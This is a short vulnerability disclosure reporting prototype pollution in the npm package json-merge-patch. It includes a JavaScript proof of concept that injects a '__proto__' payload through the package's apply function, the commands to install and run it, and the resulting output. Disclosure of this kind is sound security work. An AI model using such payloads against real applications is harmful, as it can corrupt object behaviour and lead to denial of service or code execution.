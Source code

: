 # Description

`json-merge-patch` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
let jsonmergepatch = require("json-merge-patch");
jsonmergepatch.apply({}, JSON.parse('{ "__proto__": { "polluted": "Yes! Polluted" }}'));
console.log(polluted);
```
2. Execute the following commands in another terminal:

```bash
npm i json-merge-patch # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Yes! Polluted
```